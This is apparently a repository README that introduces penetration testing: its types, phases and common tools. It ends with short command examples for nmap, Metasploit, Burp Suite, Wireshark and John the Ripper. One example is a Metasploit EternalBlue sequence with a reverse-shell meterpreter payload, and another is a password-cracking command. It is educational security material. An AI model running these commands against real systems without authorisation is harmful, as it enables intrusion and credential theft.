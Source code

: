 # Pentesting

## What is Pentesting?

Pentesting, or penetration testing, is a simulated cyber attack against a computer system, network, or web application to identify vulnerabilities that an attacker could exploit. The goal is to find and fix security weaknesses before they can be exploited by malicious actors.

## Types of Pentesting

1. **Black Box Testing**: The tester has no prior knowledge of the system and tests it as an external attacker would.
2. **White Box Testing**: The tester has full knowledge of the system, including source code and architecture, and tests it from an internal perspective.
3. **Gray Box Testing**: The tester has partial knowledge of the system, combining elements of both black box and white box testing.

## Phases of Pentesting

1. **Planning and Reconnaissance**: Define the scope and goals of the test, gather intelligence about the target, and identify potential entry points.
2. **Scanning**: Use tools to identify open ports, services, and vulnerabilities in the target system.
3. **Gaining Access**: Exploit vulnerabilities to gain access to the target system.
4. **Maintaining Access**: Establish a persistent presence on the target system to simulate advanced threats.
5. **Analysis and Reporting**: Document the findings, including vulnerabilities discovered, exploits used, and recommendations for remediation.

## Common Tools Used in Pentesting

- **Nmap**: Network scanner for discovering hosts and services.
- **Metasploit**: Framework for developing and executing exploit code.
- **Burp Suite**: Web vulnerability scanner and testing tool.
- **Wireshark**: Network protocol analyzer for capturing and analyzing network traffic.
- **John the Ripper**: Password cracking tool.

## Benefits of Pentesting

- **Identify Security Weaknesses**: Discover vulnerabilities before attackers can exploit them.
- **Improve Security Posture**: Implement fixes and improve defenses based on test results.
- **Compliance**: Meet regulatory requirements and industry standards for security testing.
- **Risk Management**: Understand and mitigate potential risks to the organization.

## Conclusion

Pentesting is a critical component of a comprehensive security strategy. By simulating real-world attacks, organizations can identify and address vulnerabilities, improve their security posture, and protect their assets from potential threats.

## Examples of Pentesting

### Example 1: Scanning for Open Ports with Nmap
Nmap is a popular tool used in pentesting to discover hosts and services on a network.

```sh
nmap -sS -p 1-65535 192.168.1.1
```
This command performs a TCP SYN scan on all ports (1-65535) of the target IP address `192.168.1.1`.

### Example 2: Exploiting a Vulnerability with Metasploit
Metasploit is a framework for developing and executing exploit code against a remote target machine.

```sh
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.2
exploit
```
This sequence of commands launches Metasploit, selects the EternalBlue exploit, sets the target and payload options, and executes the exploit.

### Example 3: Intercepting HTTP Traffic with Burp Suite
Burp Suite is a web vulnerability scanner and testing tool.

1. Configure your browser to use Burp Suite as a proxy.
2. Open Burp Suite and start the proxy listener.
3. Visit the target web application in your browser.
4. Use Burp Suite to intercept and analyze HTTP requests and responses.

### Example 4: Capturing Network Traffic with Wireshark
Wireshark is a network protocol analyzer used to capture and analyze network traffic.

1. Open Wireshark and select the network interface to capture traffic.
2. Start the capture.
3. Filter the captured traffic to focus on specific protocols or IP addresses.
4. Analyze the captured packets to identify potential security issues.

### Example 5: Cracking Passwords with John the Ripper
John the Ripper is a password cracking tool.

```sh
john --wordlist=/path/to/wordlist.txt /path/to/password/file
```
This command uses a wordlist to attempt to crack the passwords in the specified password file.